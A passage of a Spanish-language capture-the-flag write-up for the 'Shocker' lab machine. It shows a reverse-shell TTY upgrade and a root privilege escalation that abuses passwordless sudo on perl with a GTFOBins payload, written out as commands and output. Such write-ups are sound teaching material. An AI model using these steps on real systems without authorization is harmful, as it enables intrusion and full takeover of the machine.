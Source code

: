Efectuamos el `tratamiento` a la `TTY`

```
# script /dev/null -c bash
[ENTER]
[CTRL + Z]
# stty raw -echo; fg
[ENTER]
# reset xterm
[ENTER]
# export TERM=xterm
[ENTER]
# export SHELL=bash
[ENTER]
# stty rows 45 columns 183
[ENTER]
```
## Privilege Escalation

Con este usuario tenemos `privilegios` como `sudo`

```
shelly@Shocker:/home/shelly$ sudo -l
Matching Defaults entries for shelly on Shocker:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User shelly may run the following commands on Shocker:
    (root) NOPASSWD: /usr/bin/perl
```

Ya nos hemos `convertido` en usuario `root`, este `payload` es de [https://gtfobins.github.io/gtfobins/perl/#sudo](https://gtfobins.github.io/gtfobins/perl/#sudo)

```
shelly@Shocker:/home/shelly$ sudo perl -e 'exec "/bin/bash";'
root@Shocker:/home/shelly# whoami
root
```
